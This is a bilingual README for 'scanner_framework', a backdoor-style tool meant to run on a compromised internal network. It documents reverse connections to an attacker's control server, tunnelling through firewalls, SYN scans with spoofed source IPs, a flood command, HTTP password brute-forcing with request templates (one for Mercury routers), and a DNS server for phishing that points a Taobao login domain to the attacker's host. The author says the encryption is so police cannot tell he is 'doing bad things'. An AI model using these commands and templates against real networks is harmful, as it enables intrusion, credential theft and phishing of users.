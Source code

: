 ﻿
## scanner_framework ##


中文:
网络探测框架,适用于入侵到内网探测其它网络设备,探测器具有体积小,功能多,而且带有反向连接从内网穿透出外网连接控制终端,通信数据采用动态加密,再也不怕警察叔叔知道我在干坏事儿啦,为了方便破解一些弱口令设备,内部带有在线破解功能(暂时支持HTTP 破解).如果觉得这些功能满足不了需求,可以使用端口映射把你需要的工具直接通过隧道对接到内网的某台指定的主机端口上进行扫描..  --  LCatro<br/>

English:
This is an internal network scanner like meterpreter .I will create more function into it scanner (now include many basic network scanner and network crack [like BurpSuite,crack HTTP]).Reverse connect function is to facilitate the attacker management hacked machine and crypte communication.Tunnel connect help your attack process's network flow  crossing the firewall of internal network.<br/>


***

###启动方式  [How to launch it ]
__scanner.exe__ 控制台启动  [Launch it by console]<br/>
__scanner.exe -bind [%port%]__ 绑定端口,远程访问  [Bind a local port for waitting you to connect it]<br/>
__scanner.exe -recon %ip% [%port%]__ 反向连接,远程访问,默认是80,注意记得先启动reverse_server ,不然scanner.exe 不能成功连接  [Reverse connect to specify ip,WARNING!Remenber launch reverse_server first and then using this parameter launch scanner.exe]<br/>

###使用方法  [How to use it ]
扫描当前网段存活的主机,并且自动搜集数据  [using ARP request to query live machine in current network]<br/>
__using:arp__<br/>
获取当前主机的网络信息  [get this machine's information]<br/>
__using:local__<br/>
测试主机是否连通  [ping ..you most know it ..]<br/>
__using:ping %ip/host%__<br/>
TCP SYN 扫描主机  [tcp syn scan,set -P scanner will testing port,set -F is fake a ip for hide itsalf in attack flow]<br/>
__using:scan %ip% [-P:[port1,port2,port3,...]] [-F:[fake_ip1,fake_ip2,...]]__<br/>
洪水攻击主机  [dont use it ,because you will expose,so i never develop this function]<br/>
__using:flood %ip% [-P:[port1,...]] [-F:[fake_ip1,...]]__<br/>
在线破解  [online crack]<br/>
__using:crack %ip% %port% [%user_dictionary_path% %password_dictionary_path%]__<br/>
路由跟踪  [tracert route]<br/>
__using:tracert %ip/host%__<br/>
抓取页面  [get a HTML page on server]<br/>
__using:getpage %ip% [-PORT:%port%] [-PATH:%path%]__<br/>
启动端口转发功能  [tunnal port]<br/>
__using:route -R:[%remote_ip%,%remote_port%] -L:[[%local_ip%,]%local_port%]__<br/>
启动DNS 服务器 [dns server]<br/>
__using:dns [run|start] | add %host% %ip% | delete %ip%__<br/>
获取外网IP 地址和粗略定位 [get internet ip no is internal network ip and get the location]<br/>
__using:ip__<br/>
显示帮助  [show help]<br/>
__using:help__<br/>
退出  [exit scanner]<br/>
__using:quit__<br/>


***

###在线破解  [About Online Crack]
>在线破解功能原理是通过自己构造特定的HTTP 数据包然后程序根据字典穷举测试出帐号密码
>
>什么是表达式?
>
>表达式的意思是给程序一个填充数据的框架,在接下来的穷举测试中会根据表达式内的关键字来填充数据,下面是在线破解的例子:
>
>本地网络192.168.1.103:80 启用了PHP 服务器,在探测器里面输入破解命令
>
>crack 192.168.1.103 80
>
>然后会提示输入表达式
>
>input your crack express:
>
>输入数据包数据:
>POST http://192.168.1.103:80/api/analays.php HTTP/1.1<br/>
>Accept: application/x-ms-application, image/jpeg, application/xaml+xml, image/gif, image/pjpeg, application/x-ms-xbap, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*<br/>
>Referer: http://192.168.1.103/api/analays.php<br/>
>Accept-Language: zh-CN<br/>
>User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; WOW64; Trident/5.0; SLCC2; .NET CLR 2.0.50727; .NET CLR 3.5.30729; .NET CLR 3.0.30729; .NET4.0C; .NET4.0E)<br/>
>Content-Type: application/x-www-form-urlencoded<br/>
>Accept-Encoding: gzip, deflate<br/>
>Host: 192.168.1.103<br/>
>Content-length: %length%<br/>
>Pragma: no-cache<br/>
><br/>
>__user=%username%&pass=%password%__<br/>
>
>其中Content-length: %length% 的意思是让程序自动在此填充上下文的大小[因为这个长度是会变化的],%username% 和%password% 就是自动填充用户名和密码<br/>[这里也可以不需要全部都用,比如破解水星路由器,直接填%password% 即可启动]<br/>最后输入<end>来确认数据包填写完成,如果中间某个位置出现填写错误就输入<reset>来重新填写破解数据包,下面的输入成功判断条件也是同理..
>
>input your check term:
>
>输入成功判断条件,由于经过测试,如果输入密码成功的话,页面会返回一个包含Success 的字符串,然后把他作为破解成功的测试条件..<br/>
>Success
>
>now cracking!
>
>__network crack - target:192.168.1.103:80<br/>
>username:root password:toor__
>
>破解完成
>
>
>表达式函数:
>
>__base64(%string%)__ -- 采用base64 编码<br/>
>__time()__ -- 获取系统时间<br/>
>__len(%string%)__ -- 统计字符串长度<br/>
>__rnd([%low%-%up%])__ -- 在%low% 到%up% 之间生成随机数<br/>
>
>Example :
>
>破解水星的数据包 (其它都差不多,关键在Cookie):
>
>Cookie: a2404_pages=10; a2404_times=5; __Authorization=Basic%20base64(admin:%password%)__
>
>接下来会把%password% 先填充好之后再编码base64
>
>WARNING! 由于水平问题还做不出递归,请见谅 ..  
>


***

####DNS 服务器 [About DNS Server]

DNS 服务器是针对内网的信息钓鱼,比如通过伪造的站点来钓得更多的个人信息或者欺骗应用程序更新,如果上面的用法还不太明白的话可以看这里 [DNS server usualy use redirecting to phishing sites]<br/>

dns run 启动DNS 服务器 [run dns server]<br/>
dns exit 退出DNS 服务器 [exit dns server]<br/>
dns add m.login.taobao.com 127.0.0.1 把淘宝的手机登陆域名绑定到本地IP [point m.login.taobao.com to localhost via dns setting]<br/>
dns delete www.baidu.com 删除DNS 查询项目 [delete this record]<br/>

<br/>

####端口转发原理 [tunnal port design]
####![image](https://raw.githubusercontent.com/lcatro/network_backdoor/master/scanner_framework/route_design.png)


***

###Other

#####reverse_server 是用来做反向连接用的服务端

#####scanner.exe -bind 参数启动程序需要自己主动连过去,但是客户端还没写,也没什么需求,以后慢慢来..